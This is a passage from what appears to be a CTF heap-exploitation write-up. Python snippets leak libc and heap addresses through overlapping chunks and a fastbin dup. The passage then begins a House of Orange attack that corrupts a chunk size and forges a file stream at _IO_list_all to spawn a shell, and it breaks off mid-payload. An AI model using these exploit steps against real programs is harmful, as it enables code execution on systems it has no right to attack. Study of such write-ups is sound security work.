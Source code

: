![image](https://hackmd.io/_uploads/r1vfDkgHA.png)
-  After overwrite

![image](https://hackmd.io/_uploads/HyxIw1eHC.png)
- After free 

***Now, I can write and read data in chunk_C, which is overlaped by free chunk, so I can leak data from this free chunk.***


Add some lines of code and see the result

```python
chunk_B2 = malloc()

unsortedbin_data = read(chunk_C)
unsortedbin = u64(unsortedbin_data[0:8])
info("unsortedbin: " + hex(unsortedbin))
```
![image](https://hackmd.io/_uploads/ByE4qJxr0.png)

![image](https://hackmd.io/_uploads/BkQPqklrA.png)

#### Leak heap

**target:** fastbin dup

Add some lines of code

```python
chunk_C2 = malloc()
free(chunk_A)
free(chunk_C2)

fastbin_data = read(chunk_C)
heap = u64(fastbin_data[0:8])
info("heap: " + hex(heap))
```

![image](https://hackmd.io/_uploads/r1iBnJeHR.png)

![image](https://hackmd.io/_uploads/SySiaJxrR.png)


#### The house of orange

***target:*** overwrite vtable of _IO_list_all to trigger overflow function in vtable for pop shell.
Because I can overwrite one byte(size of chunk), I can control heap to create fake file stream.

```python
# house of oragne
chunk_C3 = malloc()
chunk_A2 = malloc()

edit(chunk_A2, p8(0)*0x58 + p8(0xc1))
free(chunk_B2)

chunk_B3 = malloc()

# string "/bin/sh" to _flag size field
edit(chunk_B3, p64(0)*10 + b'/bin/sh\x00')

payload = \
p64(0) + p64(libc.sym['_IO_list_all'] - 0x10) +\
p64(1) + p64(2) 

```